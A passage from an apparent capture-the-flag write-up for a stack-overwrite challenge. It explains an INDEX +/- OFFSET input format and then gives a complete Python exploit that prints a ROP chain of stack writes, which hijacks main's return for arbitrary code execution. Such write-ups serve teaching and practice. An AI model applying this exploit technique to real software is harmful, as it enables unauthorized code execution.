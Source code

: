 So the input is of the following form
```
INDEX +/- OFFSET

INDEX	---> Used to point to word locations on stack starting from return address in main
OFFSET	---> Added/Subtracted to existing value on stack to result in address of executable code
```
### The final solution ###
```python
print("+369+158512")
print("+370+135025968")
print("+371-430565")
print("+372+1851969610")
print("+373-1717116221")
print("+374-1582439315")
print("+375-1447254831")
print("+376-1312659428")
print("+377+439719755")
print("+378-304866366")
print("+379-170189460")
print("+380-35004972")
print("+381+99561124")
print("+382+35292265")
print("+383+99220840")
print("+384+35963640")
print("+385+98713305")
print("+386+36471183")
print("+387+98713297")
print("+388+35963609")
print("+389+99220879")
print("+390+35345217")
print("+391+99383358")
print("+392+35345217")
print("+393+99383358")
print("+394+35345217")
print("+395+99383358")
print("+396+35345217")
print("+397+99383358")
print("+398+35345217")
print("+399+99383358")
print("+400+35345217")
print("+401+99383358")
print("+402+35135971")
print("h")
```
The last alphabet print triggers the exit of main function and starts arbitarty code execution.

Phew, that was a lot to learn in one challenge. Try the challenge and let me know what you think.


#### References ####
1. [The first solution..well almost](http://phobosys.de/blog_january_20.html)
2. [ROPgadget](https://github.com/JonathanSalwan/ROPgadget)
3. [checksec](https://github.com/slimm609/checksec.sh)
